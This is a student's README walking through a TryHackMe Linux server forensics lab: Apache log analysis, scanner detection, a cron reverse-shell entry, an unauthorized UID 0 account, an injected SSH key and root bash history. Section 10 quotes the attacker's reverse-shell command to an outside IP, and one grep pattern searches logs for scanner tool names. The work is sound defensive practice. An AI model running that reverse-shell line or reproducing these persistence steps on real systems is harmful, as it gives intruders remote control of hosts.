# -Darwin-SOC-Linux-Server-Forensics-Lab

Hands-on Linux server forensics lab covering Apache log analysis, Nmap detection, web upload investigation, cron reverse-shell persistence, unauthorized root accounts, SSH key persistence, Bash history analysis, and malicious systemd service detection.

## Skills Demonstrated

- Linux Server Forensics
- SOC Investigation
- Incident Response
- Apache Log Analysis
- Threat Hunting
- Web Server Investigation
- IOC Analysis
- Cron Persistence Detection
- Reverse Shell Detection
- SSH Key Analysis
- User Account Investigation
- Privilege Escalation Analysis
- Bash History Analysis
- Linux Persistence Analysis
- Security Documentation

## Tools & Technologies

- Linux
- Ubuntu
- SSH
- Bash
- Apache
- grep
- find
- systemctl
- /etc/passwd
- /etc/crontab
- .bash_history
- authorized_keys
- TryHackMe AttackBox

## Investigation Walkthrough

### 1. Linux Server Forensics Room Setup

Started the TryHackMe Linux Server Forensics room and prepared the investigation environment.



### 2. Target and SSH Credentials

Identified the compromised ACME Web Design Linux server and reviewed the SSH credentials provided for forensic access.



### 3. Successful SSH Login

Connected to the compromised Linux server using SSH.

Command used:

ssh fred@TARGET_IP

This provided command-line access to begin host-based forensic analysis.



### 4. Apache Log Directory Review

Navigated to the Apache log directory and reviewed the available web server logs.

Commands used:

cd /var/log/apache2

ls -lah

Important forensic artifacts included:

- access.log
- access.log.1
- error.log
- error.log.1
- other_vhosts_access.log



### 5. Suspicious Tool Detection

Searched Apache logs for indicators associated with common scanning and enumeration tools.

Command used:

grep -aEi "nmap|sqlmap|dirbuster|nikto" access.log access.log.1

The logs revealed automated reconnaissance activity.



### 6. Nmap Activity Identified

Reviewed Apache requests generated by the Nmap Scripting Engine.

The logs showed automated probing of multiple web paths, demonstrating reconnaissance against the exposed web service.



### 7. Apache Log Analysis Verified

The investigation confirmed that multiple tools interacted with the web server.

A path requested during Nmap activity was identified as:

/nmaplowercheck1618912425



### 8. Web Server Log Review

Reviewed Apache logs for POST requests and potential file-upload activity.

Key findings included:

contact.php

192.168.56.24

The analysis linked suspicious activity to the web application's contact functionality.



### 9. Web Server Analysis Completed

The investigation confirmed:

- File upload page: contact.php
- Source IP responsible for uploads: 192.168.56.24
- Security notice associated with: Fred



### 10. Cron Reverse-Shell Persistence

Investigated Linux cron configuration for malicious scheduled activity.

A suspicious cron entry contained:

sh -i >& /dev/tcp/192.168.56.206/1234 0>&1

The command uses an interactive shell to establish a reverse connection to a remote system.

This represented a clear persistence mechanism.



### 11. Root2 Account Investigation

Reviewed /etc/passwd for unexpected privileged accounts.

Command used:

grep "root2" /etc/passwd

A suspicious account named root2 was identified with UID and GID values of 0, granting root-equivalent privileges.

The investigation also confirmed a weak password associated with the unauthorized account.



### 12. Second VM Deployment

Deployed a second compromised Linux server to continue the forensic investigation.



### 13. Apache Log Analysis II

The second server showed less obvious reconnaissance activity.

Apache logs were reviewed for unusual HTTP methods, request timing, and enumeration patterns.

A non-standard HTTP method was identified:

GXWR

The Nmap scan was correlated to:

13:30:15



### 14. SSH Key Persistence

Reviewed SSH authorized_keys files for attacker persistence.

A suspicious SSH key comment was identified:

kali@kali

This indicated that an unauthorized public key had been added to maintain persistent SSH access.



### 15. Program Execution History

Linux execution-history artifacts were reviewed to identify attacker activity and privilege escalation.

Useful artifacts included:

- .bash_history
- authentication logs
- package history
- systemd logs



### 16. Root Bash History

Reviewed the root account's Bash history.

Command used:

sudo cat /root/.bash_history

The first recorded command was:

nano /etc/passwd

This provided evidence that the Linux account database had been directly modified during the compromise.



### 17. Lab Completed

The TryHackMe Linux Server Forensics room was successfully completed at **100%**.

The investigation covered reconnaissance, suspicious web activity, persistence, privileged account manipulation, SSH access, and command-history analysis.



## Key Findings

| Finding | Evidence |
|---|---|
| Web reconnaissance | Nmap and automated enumeration activity |
| Suspicious HTTP behavior | Non-standard GXWR request |
| File upload functionality | contact.php |
| Suspicious source IP | 192.168.56.24 |
| Cron persistence | Reverse shell using sh -i |
| Unauthorized privileged account | root2 with UID/GID 0 |
| SSH persistence | Unauthorized kali@kali key |
| Account manipulation | Direct modification of /etc/passwd |
| Execution-history evidence | Root Bash history |
| Multiple persistence techniques | Cron, privileged account, SSH key |

## MITRE ATT&CK Mapping

### T1053 – Scheduled Task/Job
Malicious cron activity was used to establish persistence.

### T1078 – Valid Accounts
An unauthorized root-equivalent account was created.

### T1098 – Account Manipulation
The attacker modified Linux account information.

### T1098.004 – SSH Authorized Keys
An unauthorized SSH key was added for persistent access.

### T1059.004 – Unix Shell
Shell commands and reverse-shell activity were observed.

### T1543.002 – Systemd Service
The investigation also explored Linux service-based persistence.

## SOC Analyst Takeaways

- Apache access logs can reveal reconnaissance and exploitation activity.
- Scanner traffic may be identified through unusual HTTP methods and timing patterns.
- Cron configuration is an important Linux persistence artifact.
- Unexpected UID 0 accounts should be treated as high-priority findings.
- SSH authorized_keys files should be reviewed during Linux incident response.
- Bash history can reveal privilege escalation and system modification.
- Attackers may maintain access through multiple persistence mechanisms.
- Linux investigations require correlation across logs, account data, SSH artifacts, and scheduled tasks.

## Project Outcome

This project strengthened my hands-on experience with:

- Linux incident response
- Host-based forensic investigation
- Apache log analysis
- Threat hunting
- Persistence detection
- Reverse-shell analysis
- Privileged account investigation
- SSH key analysis
- Bash history review
- Security incident documentation

## Author

**Darwin Brown Jr.**

Aspiring Information Security Analyst / SOC Analyst

GitHub: https://github.com/browndarwin231-Tech

